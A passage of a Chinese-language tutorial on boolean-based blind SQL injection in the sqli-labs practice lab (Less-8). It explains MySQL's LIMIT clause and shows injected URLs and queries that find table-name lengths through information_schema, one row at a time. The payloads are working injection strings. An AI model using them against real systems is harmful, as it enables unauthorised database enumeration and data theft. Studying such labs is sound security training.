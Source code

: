 * `limit`

  用于强制返回指定的记录行数，语法如下

  ```
  select * from table_name limit [offset，] rows
  offset：指定第一个返回记录行的偏移量（即从哪一行开始返回），注意：初始行的偏移量为0。
  rows：返回行数的数量。
  ```

方法同获取数据库名长度，但是由于表名可能不止一个。当表名为多个的时候，直接将下面的`SQL`语句拿到数据库中运行将会报错。

```
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database()))=1#' LIMIT 0,1;
;
```

![](image/16.jpg)

> `length((select table_name from Information_schema.tables where table_schema = database()))`此处的括号并没有多敲，`length()`自带一个括号，`select`的结果也需要一个括号。去掉一层括号，数据库将会报错。~~（不去掉括号也会报错）~~

所以此处需要用到`limit`来控制行数，然后再一一爆破。

> 之所以不用`group_concat`是为了防止有些人不讲武德，在表名里也用除下划线以外的符号，比如`,`

下面以第一个表为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1))=6%23
SQL:
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database() limit 0,1))=6#' LIMIT 0,1
;
```
